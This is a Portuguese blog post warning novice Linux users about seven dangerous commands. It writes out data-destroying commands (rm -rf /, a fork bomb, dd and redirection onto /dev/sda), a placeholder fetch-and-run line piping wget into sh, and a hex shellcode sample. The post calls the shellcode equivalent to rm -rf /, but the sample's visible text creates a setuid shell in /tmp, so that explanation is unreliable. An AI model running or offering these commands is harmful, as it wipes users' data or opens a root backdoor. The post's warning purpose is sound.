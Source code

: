 ```yaml
---
title: "7 Comandos perigosos."
author: "Nilsonlinux"
output:
 html_document:
   toc: true
   keep_md: yes
categories: Terminal
layout: post
featured_image: /images/linux/7-comandos-danger.png
---
```




## 7 comandos perigosos do Linux que você NUNCA deve executar  ##

Como o número de usuários leigos de Linux vem aumentando com o tempo, acho pertinente alertar as pessoas sobre alguns comandos que podem ser perigosos, tanto para o sistema, quanto para os dados contidos no computador. 

Como o número de usuários leigos de Linux vem aumentando com o tempo, acho pertinente alertar as pessoas sobre alguns comandos que podem ser perigosos, tanto para o sistema, quanto para os dados contidos no computador.

O terminal é uma ferramenta muito poderosa, por conta disso é bom você dominá-lo, ou pelo menos entendê-lo, para evitar problemas no seu sistema baseado em Linux.
 Os grandes problemas que você pode enfrentar usando o terminal de forma indiscriminada normalmente estão atrelados a comandos de sobrescrita de dados, então vamos mostrar alguns aqui que você deve prestar especial atenção quando vir alguém sugerindo que você faça no seu computador com Linux.

Atenção: Você NÃO deve executar nenhum destes comandos no seu computador, isso pode causar danos irreversíveis que nós não nos responsabilizamos, o artigo tem a intenção de ser instrutivo, justamente para evitar este tipo de situação.

1 - ```rm -rf```  

É um comando clássico do do Linux que teoricamente não faz nada de mais, ele serve apenas para apagar arquivos, e é aí que mora o perigo. Dependendo da forma que ele for aplicativo o resultado pode ser muito desagradável, por isso é importante você entender o que os comandos fazem, vamos explicar um pouco melhor neste exemplo:
- rm: comando usado no Linux para deletar arquivos.
- rm -r: o comando deleta pastas recursivamente, mesmo que a pastas esteja vazia.
- rm -f: cUsando este parâmetro, o propriedade de "apenas leitura" que um arquivo tenha é removida sem perguntar, permitindo que o arquivo seja apagado.
- rm -rf / : Usando a combinação dos dois parâmetros com a "/" você diz para o sistema apagar tudo que está no diretório raiz do sistema.
- rm -rf * : Força o apagamento de tudo que está no diretório atual ou no de trabalho, dependendo de onde você estiver.
- rm -rf . : Acrescentando um ponto, você pode apagar também as pastas ocultas, além das normais.

Tome muito cuidado ao executar um comando destes, especialmente se for feito como root ou usando o sudo.

 Tão perigoso que pode ser este comando, que atualmente o Linux se protege contra ele, se você rodá-lo, mesmo com sudo ou como root, ele não vai funcionar, para isso é preciso usar os parâmetros descritos na imagem acima. Da mesma forma que o Linux protege você de destruir o sistema sem querer, ele também permite que você o destrua mediante a ter certeza de que é realmente isso que você quer, curioso, não é?

2 - ```:(){:|:&};:```  

Este comando funciona como uma "Fork Bomb", ele opera definindo uma função chamada ':', que se chama duas vezes, uma vez em primeiro plano e outra em segundo plano, o processo se repete indefinidamente até que o sistema trave.

3 - qualquer comando para > /dev/sda

A forma com que o Linux lê as partições e discos é diferente do Windows, por conta disso, normalmente novatos não conseguem entender em primeira instância como eles são distribuídos. Normalmente a localização dos dispositivos de armazenamento do sistema ficam dentro de /dev, sendo que podem haver vários por ali e normalmente o sda está presente.

O problema do comando acima é que ele redireciona a saída de qualquer comando que seja colocado para o seu bloco de armazenamento, desta foma sobrescrevendo alguns dados e corrompendo outros.

4 - ```mv pasta/diretório /dev/null```  

Eu costumava brincar sobre o /dev/null me referindo a ele como o "buraco negro" do Linux. Tudo que é enviado para ele é perdido "para sempre". Então tome cuidado ao mover qualquer coisa para esta localização. O comando mv serve para mover arquivos ou diretórios para o destino indicado, se este destino for o /dev/null você estará mandando seus arquivos pra Nárnia.

5 - ```wget http://malicious_source -O- | sh```  

Este comando vai aparecer para você instalar alguns programas. O wget é o programa responsável por fazer o download da URL que vem logo após, ele é bem útil para baixar arquivos em geral, o problema está no arquivo que ele baixa e na sequência do comando  que o executa no caso dele ser um shell script. Só baixe arquivos desta forma de fontes que você considera confiáveis e se estiver na dúvida, baixe apenas o arquivo de shell, eliminando qualquer parâmetro que apareça após o link, assim você pode abrir ele em um editor de texto de sua preferência e verificar o que há dentro dele.

6 - ```dd if=/dev/random of=/dev/sda```  

Assim como o ítem 3 da nossa lista, o grande problema aqui é o destino ser o /dev/sda. Tome cuidado. O comando dd pode ser muito útil para copiar arquivos e até mesmo partições inteiras, como no exemplo 6, mas se a saída for um outro disco, tome cuidado, pois o resultado irá sobrepor os dados lá existentes.

7 - Comandos disfarçados

Como eu comentei à princípio, o terminal é uma ferramenta poderosa, se você não dominá-lo, é bom ter cuidado com que você for rodar nele, se o você não fala a língua do terminal, saiba que ele fala muitas outras. O comando abaixo nada mais é do que o comando indicado no primeiro item da nossa lista, só que em forma hexadecimal.

    char esp[] __attribute__ ((section(“.text”))) /* e.s.p release */ = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″ “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″ “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″ “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″ “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″ “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″ “\x6e\x2f\x73\x68\x00\x2d\x63\x00″ “cp -p /bin/sh /tmp/.beyond; chmod 4755 /tmp/.beyond;”;


Ele tem o mesmo propósito do famigerado "rm -rf /", por isso, não rode coisas no terminal que você não sabe para quem servem, existem muito conteúdo grátis a internet para você estudar sobre e até mesmo alguns bons cursos pagos, como é o caso do "Dominando o Terminal" aqui do blog mesmo, mas em linhas gerais, se você evitar colocar comandos que você não sabe para que servem direito, os problemas já serão minimizados. 

Agora espalhe este conhecimento para ajudar mais pessoas a ficarem precavidas sobre estes pequenos percalços da vida computacional.

Fonte; https://www.diolinux.com.br/2017/01/7-comandos-mais-perigosos-linux.html
